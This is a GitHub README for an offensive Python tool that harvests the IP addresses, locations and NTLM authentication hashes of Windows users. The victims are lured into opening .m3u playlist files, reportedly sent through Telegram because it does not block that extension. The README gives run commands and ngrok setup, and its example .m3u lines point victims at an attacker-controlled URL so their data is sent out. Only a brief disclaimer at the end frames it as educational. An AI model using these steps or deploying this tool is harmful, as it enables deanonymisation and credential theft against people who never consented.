 IP and NTLM Hash Detection Tool
A Python-based tool designed to capture IP addresses and NTLM authentication hashes from remote Windows clients using M3U files, primarily for security testing and educational purposes. This tool exploits the lack of blocking for the .m3u file extension in Telegram.

Demonstration

![m3u](https://github.com/user-attachments/assets/09f950b2-7abe-4514-a8bc-246bfd8f4ceb)

For a detailed video walkthrough of the tool in action, see ipltlm.mp4.
Overview
This tool sets up an HTTP server that:

Logs client IP addresses and connection details.
Attempts to capture NTLM authentication hashes when clients connect.
Uses client-side JavaScript to detect and report public IP addresses.
Generates .m3u files to trigger connections via media players.

Features

IP Address Logging: Records client IP addresses, ports, and connection details.
NTLM Hash Capture: Requests and logs NTLM authentication hashes.
Public IP Detection: Detects and reports clients' real public IP addresses using JavaScript.
Geolocation: Identifies the geographic location of captured IP addresses.
Network Diagnostics: Performs connectivity tests to ensure server accessibility.
Alternative Port Support: Automatically tries alternative ports if the primary port is unavailable.

Prerequisites

Python 3.6 or higher
Internet connectivity
Open port access (may require firewall/router configuration)

Installation

Clone the repository or download the script:git clone https://github.com/<your-repo>/ip-ntlm-hash-tool.git

Install required dependencies:pip install -r requirements.txt

Usage
Basic Usage
Run the script with default settings (port 8001, auto-detected IP):
python ipntlmhash.py

Advanced Usage
Specify a custom IP address and port:
python ipntlmhash.py --ip 192.168.1.100 --port 8080

Try alternative ports if the primary port fails:
python ipntlmhash.py --alt-ports

Command-line Options

Option
Description
Default

--ip
Specify the server IP address
Auto-detected

--port
Specify the port to listen on
8001

--alt-ports
Try alternative ports (80, 443, 8080, 8000) if primary fails
Disabled


Using with Ngrok (Recommended)
For public accessibility, especially behind NAT or firewalls, use ngrok:

Start the script:python ipntlmhash.py

In a separate terminal, start ngrok:ngrok http 8001

Ngrok will provide a public URL (e.g., https://a1b2c3d4.ngrok.io).
Edit the generated .m3u files to use the ngrok URL:
ntlmv2_hash.m3u:https://a1b2c3d4.ngrok.io/somefile.mp3

ip_detect.m3u:https://a1b2c3d4.ngrok.io/ip

How It Works

The server listens for incoming connections on the specified port.
Upon client connection, it logs the IP address, port, and geolocation.
The server attempts NTLM authentication to capture hash data.
The /ip endpoint serves a JavaScript-based page to detect the client's public IP.
Clients report their public IP back to the server.
Generated .m3u files trigger connections when opened in media players.

Output Files

ip_log.txt: Logs of client connections and reported public IPs.
ntlm_log.txt: Captured NTLM authentication data.
ipltlmhash.m3u: Triggers both IP and NTLM hash capture.
ip_detect.m3u: Directs clients to the IP detection page.

Limitations

NTLM hash capture depends on the client attempting NTLM authentication.
Server accessibility requires proper network/firewall configuration.
The tool captures NTLM hash data but does not fully process the handshake.
Public IP detection requires JavaScript enabled in the client's browser.

Security Note
This tool is intended for educational purposes and authorized security testing only. Unauthorized use against systems without permission may violate laws and regulations. Use responsibly and ethically.
Troubleshooting
If you encounter connectivity issues:

Ensure your firewall allows incoming connections on the server port.
Set up port forwarding on your router if behind NAT.
Use ngrok for reliable public access.
Check the "Network Configuration Check" and "Server Accessibility Test" in the tool's output.

License
MIT License
